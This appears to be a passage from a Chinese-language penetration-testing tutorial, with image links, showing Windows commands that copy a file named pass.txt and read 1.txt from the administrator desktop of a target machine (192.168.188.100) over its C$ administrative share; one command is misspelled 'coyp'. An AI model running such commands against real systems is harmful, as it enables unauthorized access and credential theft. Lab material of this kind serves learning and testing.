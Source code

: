 ![image-20220318185354157](README/image-20220318185354157.png)



```
# 吧目标机器上的pass.txt拷贝到本地
coyp \\192.168.188.100\c$\users\administrator\desktop\pass.txt
```

查看内容

```
# 查看目标桌面1.txt文件内容
type \\192.168.188.100\c$\users\administrator\desktop\1.txt
```

![image-20220318185531211](README/image-20220318185531211.png)
